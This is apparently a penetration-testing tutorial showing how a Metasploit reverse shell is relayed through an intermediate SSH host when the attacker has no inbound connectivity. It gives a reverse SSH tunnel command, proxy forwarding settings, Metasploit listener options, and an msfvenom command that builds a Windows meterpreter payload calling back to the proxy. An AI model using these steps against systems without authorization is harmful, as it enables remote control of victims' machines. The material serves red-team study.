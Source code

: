 # Reverse shell from behind a firewall using an intermediate SSH host

## Scenario
The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.

The attacking machine could be hosted in a private network, behind a firewall with NAT or is connected to the Tor network for example.

![Image](images/1.png)

The payload used for the reverse shell can be anything desired, i.e. reverse_tcp, reverse_http, etc.

## Setup
The prerequisite is you have access to a secondary host which the target victim host will connect to on successful exploitation. In this example we will be using SSH to proxy the connections.

Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) establishes an SSH connection to the proxy (10.0.0.1) and can reach the victim host (172.16.0.1) -

![Image](images/2.png)

In preparation, a reverse SSH tunnel is established from the attacking host to the proxy by invoking the ssh client on the attacking host (192.168.0.1)
```bash
ssh user@10.0.0.1 -R 4444:127.0.0.1:4444
```

The SSH client on the attacker will bind to 127.0.0.1:4444 on the attacking machine (10.0.0.1). The remote SSH server will also listen on port 4444.

![Image](images/3.png)

By default SSHD will bind to the loopback interface only, but we want to allow external connectivity to this port so our victim host can connect. Use the `-g` switch or configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. Verify 127.0.0.1 is not present -

``` bash

$ netstat -tan | grep 4444
tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
tcp6       0      0 :::4444                :::*                    LISTEN     

```

Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
`sysctl -w net.ipv4.ip_forward=1` and the firewall rules on the permits inbound traffic on port 4444.

Now the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -

![Image](images/4.png)

As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively proxy to the attacker over the reverse SSH tunnel previously established -

![Image](images/5.png)

There are two settings that must be configured in Metasploit for this to work -

1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)

2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces with `ReverseListenerBindAddress 0.0.0.0`

On success, a meterpreter session will be established between the attacker and the victim hosts -

![Image](images/6.png)

## Example
Recapping and putting this all together with an example payload -

1) On the attacking machine, connect to the SSH proxy and create a reverse tunnel -

```
# ssh user@10.0.0.1 -R 4444:127.0.0.1:4444
```

2) Open msfconsole and configure and execute our listener -  

![Image](images/7.png)

3) Generate payload, specify LHOST to be our intermediate proxy -
```
# msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.0.1 lport=4444 -o /tmp/test.exe
```
